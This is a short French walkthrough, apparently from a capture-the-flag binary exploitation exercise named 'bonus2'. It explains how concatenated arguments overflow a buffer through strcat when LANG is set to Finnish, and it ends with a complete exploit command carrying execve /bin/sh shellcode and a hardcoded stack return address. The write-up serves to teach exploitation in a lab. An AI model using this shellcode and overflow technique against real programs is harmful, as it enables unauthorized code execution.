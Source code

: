 # bonus2

On remarque qu'il n'y a qu'un seul gros buffer lors du `strcpy` des arguments. \
Il prend les 40 chars de `argv[1]` et 32 chars de `argv[2]` \
En faisant un `argv[1]` plus long que 40 chars, on overwrite le `\0` et donc on fait concatener nos deux arguments. \
Grâce à la concat des args, cela fait donne un gros payload au `strcat` du `greetuser`, \
En mettant `LANG=fi` (greeting + long), le segfault tombe sur notre payload \
On peut maintenant écrire sur la stack avec un offset de 18 avec `argv[2]`. \
(Offset trouvé par un Buffer overflow pattern generator encore et toujours) \
À la fin de notre payload, on lui dit de ret sur le début de notre payload, et au début on y met du shellcode, on complète avec des dummy caratères:

```bash
LANG="fi" ./bonus2 "$(python -c 'print "\x90"*8 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"A"*8')" "$(python -c 'print "B"*18 + "\x40\xf6\xff\xbf"')"
```
